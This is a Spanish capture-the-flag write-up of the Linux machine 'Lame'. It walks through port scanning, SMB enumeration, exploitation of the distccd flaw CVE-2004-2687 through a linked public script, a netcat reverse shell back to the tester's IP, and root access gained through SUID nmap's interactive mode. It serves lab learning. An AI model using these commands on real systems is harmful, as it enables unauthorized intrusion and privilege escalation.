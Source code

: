 ```yaml
---
title: Lame
published: true
categories: [Linux,Medium] 
tags: [CVE-2004-2687, SUID abuse]
author: Kripteria
image:
  path: https://user-images.githubusercontent.com/55555187/182438375-f8bc8639-3cfa-4ab9-86e2-216e908d73ba.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


Lame es una <font color="#98E256">máquina Easy</font> de temática <font color="#D35400">Linux</font> en la que se toca el CVE-2004-2687 sobre el servicio distccd y la explotación del permiso SUID sobre nmap para lograr una shell como root.

## Reconocimiento y explotación

```bash
sudo nmap -p- --open -sS --min-rate 10000 -Pn -n -vvv -oG portScan 10.10.10.3
```

![2022-07-29-16-53-54-image](https://user-images.githubusercontent.com/55555187/182438597-5014882a-f246-401c-adb9-386c52202e29.png)

```bash
sudo nmap -sVC -p21,22,139,445,3632 -oN portSV 10.10.10.3 
```

![2022-07-29-18-08-05-image](https://user-images.githubusercontent.com/55555187/182438606-b7b00aea-5c15-4e1e-8c89-9aef315ab671.png)

El servicio FTP permite acceder como el usuario **anonymous** pero no tiene nada.

En el servicio **Samba** hay una serie de directorios pero solo podemos acceder a **/tmp** en el cual tenemos permisos de escritura y lectura.

```bash
smbmap -H 10.10.10.3 -R
```

![2022-07-29-18-10-24-image](https://user-images.githubusercontent.com/55555187/182438605-c5911c2b-8bbd-4906-bf95-f0cadf5f73e3.png)

Sin embargo, los archivos del directorio no tienen nada relevante.

Por otra parte, el puerto 3632 está ejecutando **distccd** que tiene una serie de vulnerabilidades asociadas. En concreto, voy a hacer uso del **CVE-2004-2687** que parece explotar un buffer overflow que permite ejecutar comandos como el usuario daemon. 

Buscando en Github encuentro un script en Python 2 que permite explotar el CVE [(CVE-2004-2687) DistCC Daemon - Command Execution (Python)](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855).

![2022-07-29-16-53-25-image](https://user-images.githubusercontent.com/55555187/182438601-0a0098d1-0d82-4319-b7fd-f0639e1e8f3a.png)

Como tengo RCE compruebo que la máquina tiene netcat mediante el comando *which netcat* y que tiene el parámetro -e habilitado mediante el comando *nc -h*. 

Como se cumplen ambas condiciones, puedo intentar entablarme una reverse shell:

```bash
nc -e /bin/bash 10.10.14.4 443
```

![2022-07-29-18-14-28-image](https://user-images.githubusercontent.com/55555187/182438603-c6a7ca60-1754-41b1-9130-80566839ae67.png)

Al hacer el tratamiento de la tty por algún motivo se queda pillado por lo que decido seguir la explotación con una shell un tanto rancia.

## Elevación de privilegios

Compruebo si el usuario está en algún grupo relevante pero no es el caso.

Reviso el **/etc/passwd** y veo que los únicos usuarios con una /bin/bash asociada son daemon, makis y root.

Trato de lanzar pspy para enumerar tareas cron pero da un error raro al ejecutarse por lo que decido tirar de linPEAS.

A través de linPEAS descubro que nmap tiene permisos SUID lo que supone un vector para escalar privilegios usando el modo interactivo.

![2022-07-29-17-26-03-image](https://user-images.githubusercontent.com/55555187/182438596-4d653dc6-8a49-4f3a-8631-284db23b14ef.png)

El modo interactivo permite, entre muchas otras cosas, spawnear una shell la cual, al tener nmap el bit SUID activo, se genera como root.

![image](https://user-images.githubusercontent.com/55555187/183289289-09b6242d-d65f-46f3-9037-9ec844563c69.png)

**Nota:** durante la fase de elevación de privilegios tuve que cambiar de servidor ya que en el que estaba, nmap daba error debido a que la persona que explotó la máquina anteriormente no cerró el modo interactivo antes de cerrar la shell, provocando un fallo EOF a todo el que intente abrir la sesión interactiva de nmap :/
